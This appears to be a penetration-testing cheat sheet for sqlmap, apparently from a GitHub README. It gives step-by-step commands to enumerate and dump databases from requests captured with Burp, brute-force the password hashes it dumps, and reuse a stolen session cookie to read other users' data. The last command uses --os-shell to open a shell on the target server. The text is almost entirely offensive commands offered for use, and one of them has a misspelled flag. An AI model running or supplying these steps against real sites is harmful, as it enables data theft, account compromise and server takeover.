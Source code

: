 ## SQLmap

For this attack you should capture the request of an input parameter with burp. For this, you just have to intercept the request (login for example) and then just copy the request and save it in a txt file and run sqlmap with:

**Getting the cookie**

To get cookies, you can do it inspecting the page, and then go to console, and in the bottom left type ````document.cookie````, hit enter and you'll get it.

````
sqlmap -r <burpsuite txt file> --dbs
````


````
sqlmap -r <txt file from burpsuite> -D <database name> --tables
````

````
sqlmap -r <txt file from burpsuite> -D <database name> --tables --columns
````

````
sqlmap -r <txt file from burpsuite> -D <database name> --dump
````

````
sqlmap -r <txt file from burpsuite> -D <database name> --tables -T users
````

**Dump All**

if you use for example:

````
sqlmap -r <burpsuite txt file> -D <ddbb> -T <table> --dump-all
````
And the case is if the table is the users table, with dump all sqlmap will ask to bruteforce the hashes, should be YES.


--------------------------------
**Lateral Movement**

On a website attack, you can use your session cookie (if you have an account) to extract information of another user from the table with sqlmap.

````
$ sqlmap -u "URL" --cookie="captured cookie of looged in user" --dbs    #for Database
````

````
$ sqlmap -u "URL" --cookie="captured cookie of looged in user" -D *DATABASE NAME* --tables #for Tables of selected Database
````

````
$ sqlmap -u "URL" --cookie="captured cookie of looged in user" -D *DATABASE NAME* -T *TABLE NAME* --colmns #for Column names
````

````
$ sqlmap -u "URL" --cookie="captured cookie of looged in user" -D *DATABASE NAME* -T *TABLE NAME* --dump #dump tables
````

````
$ sqlmap -u "URL" --cookie="captured cookie of looged in user" --os-shell
````

Last one will give us a shell and with ````help```` cmd we can see all the commands.
